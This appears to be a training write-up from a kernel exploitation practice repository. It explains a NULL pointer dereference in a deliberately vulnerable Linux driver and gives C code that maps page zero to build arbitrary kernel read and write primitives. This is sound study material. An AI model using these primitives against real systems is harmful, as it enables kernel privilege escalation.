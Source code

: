# NULL Pointer Dereference

Practice from [1].

[1] https://pawnyable.cafe/linux-kernel/LK02/null_ptr_deref.html


## mmap_min_addr

*mmap_min_addr* limits the lowest address that can be mapped from userland. It
is a non-zero value by default, but is set to 0 in our target.

~~~sh
/ $ cat /proc/sys/vm/mmap_min_addr
0
~~~

> NOTE: This chapter attacks work only when SMAP and *mmap_min_addr* security
> mechanims are not present.

## struct file

File descriptors are used when manipulating drivers from user space, but
they are received as `struct file` on the kernel side.

The *file* structure has file-specific information, such as the cursor
position. It has a member that kernel modules are free to use:
`private_data`.

~~~c
File: include/linux/fs.h

struct file {
        union {
                struct llist_node       fu_llist;
                struct rcu_head         fu_rcuhead;
        } f_u;
        struct path             f_path;
        struct inode            *f_inode;       /* cached value */
        const struct file_operations    *f_op;

        /*
         * Protects f_ep_links, f_flags.
         * Must not be taken from IRQ context.
         */
        spinlock_t              f_lock;
        enum rw_hint            f_write_hint;
        atomic_long_t           f_count;
        unsigned int            f_flags;
        fmode_t                 f_mode;
        struct mutex            f_pos_lock;
        loff_t                  f_pos;
        struct fown_struct      f_owner;
        const struct cred       *f_cred;
        struct file_ra_state    f_ra;

        u64                     f_version;
#ifdef CONFIG_SECURITY
        void                    *f_security;
#endif
        /* needed for tty driver, and maybe others */
        void                    *private_data;

#ifdef CONFIG_EPOLL
        /* Used by fs/eventpoll.c to link all the hooks to this file */
        struct list_head        f_ep_links;
        struct list_head        f_tfile_llink;
#endif /* #ifdef CONFIG_EPOLL */
        struct address_space    *f_mapping;
        errseq_t                f_wb_err;
} __randomize_layout
~~~

> NOTE: If data was stored there in LK01 modules, there would be no conflicts.

## Vulnerability

`xor()` accesses `ctx` without checking it is not NULL, neither does its caller `module_ioctl()`:

~~~c
long xor(XorCipher *ctx) {
  size_t i;

  if (!ctx->data || !ctx->key) return -EINVAL;
  for (i = 0; i < ctx->datalen; i++)
    ctx->data[i] ^= ctx->key[i % ctx->keylen];
  return 0;
}

static long module_ioctl(struct file *filp,
                         unsigned int cmd,
                         unsigned long arg) {
  request_t req;
  XorCipher *ctx;

  if (copy_from_user(&req, (void*)arg, sizeof(request_t)))
    return -EINVAL;

  ctx = (XorCipher*)filp->private_data;

  switch (cmd) {
...
    case CMD_ENCRYPT:
    case CMD_DECRYPT:
      return xor(ctx);
...
~~~

Find test program and crashdump in:
- [src/01.angus-test/angus-test.c](https://github.com/cpey/pawnyable/blob/main/LK02-1/src/01.angus-test/angus-test.c)
- [src/01.angus-test/crashdump](https://github.com/cpey/pawnyable/blob/main/LK02-1/src/01.angus-test/crashdump)

## Exploitation

Normally, when the first argument of the `mmap(2)` function is 0 (NULL), the
kernel chooses the (page-aligned) address at which to create the mapping. Flag
`MAP_FIXED`, however, tells the kernel to place the mapping at exactly that
address.

~~~c
  if (mmap(0, 0x1000, PROT_READ|PROT_WRITE,
           MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE|MAP_POPULATE,
           -1, 0) != NULL)
    fatal("mmap");
~~~

> NOTE: This will fail when `mmap_min_addr` has a higher value
> ~~~sh
> $ cat /proc/sys/vm/mmap_min_addr
> 65536
> ~~~

### Address-Arbitrary-Read

Uses ioctl command `CMD_GETDATA`, when the `filp->private_data` has not been previously
initialized -- `CMD_INIT` not called -- and therefore has NULL value, as it is the value it
assigned by `module_open()`. Since we control the contents at NULL address, we
can determine the source address (`ctx->data`) the ioctl will read from.

~~~c
static int module_open(struct inode *inode, struct file *filp) {
  filp->private_data = NULL;
  return 0;
}
~~~

~~~c
static long module_ioctl(struct file *filp,
                         unsigned int cmd,
                         unsigned long arg) {
  request_t req;
  XorCipher *ctx;

  if (copy_from_user(&req, (void*)arg, sizeof(request_t)))
    return -EINVAL;

  ctx = (XorCipher*)filp->private_data;

  switch (cmd) {
...
    case CMD_GETDATA:
      if (!ctx->data) return -EINVAL;
      if (!req.ptr || req.len > ctx->datalen) return -EINVAL;
      if (copy_to_user(req.ptr, ctx->data, req.len)) return -EINVAL;
      break;
...
}
~~~

AAR implementation:

~~~c
File: angus-aar.c

// Reads into `dst`, `len` bytes from address pointed by `src`
void AAR(char *dst, char *src, size_t len) {
  // Point the `data` member of XorCipher at address 0, to the `src` address.
  nullptr->data = src;
  nullptr->datalen = len;
  // Read the string pointed by the `data` pointer at address Null + 8, using
  // the ioctl
  angus_getdata(dst, len);
}
~~~

### Address-Arbitrary-Write

Uses the `xor()` function -- and its reverse operation properties --, to write
the data at the address pointed by `ctx->data`, where `ctx` is NULL and
controlled by the attacker.

~~~c
long xor(XorCipher *ctx) {
  size_t i;

  if (!ctx->data || !ctx->key) return -EINVAL;
  for (i = 0; i < ctx->datalen; i++)
    ctx->data[i] ^= ctx->key[i % ctx->keylen];
  return 0;
}
~~~

`ctx->data` is the address we want to write to, which we cannot modify from
userspace. What we can do is read its content before the xor operation -- by
using the previously define AAR --, that we will use to xor in our exploit with
the value we pretend to write. The result of the xor will be used as the key
(`ctx->key`) which the attacker controls. The AAW implementation is as follows:

~~~c
File: angus-aar.c

// Writes to `dst` whatever content is pointed by `src` with length `len`.
void AAW(char *dst, char *src, size_t len) {
  // Since AAW is performed with xor, read the original data first
  char *tmp = (char*)malloc(len);
  if (tmp == NULL) fatal("malloc");
  AAR(tmp, dst, len);

  // Adjust so that it becomes the data you want to write by xor
  for (size_t i = 0; i < len; i++)
    tmp[i] ^= src[i];

  // Write
  nullptr->data = dst;
  nullptr->datalen = len;
  nullptr->key = tmp;
  nullptr->keylen = len;
  angus_encrypt();

  free(tmp);
}
~~~

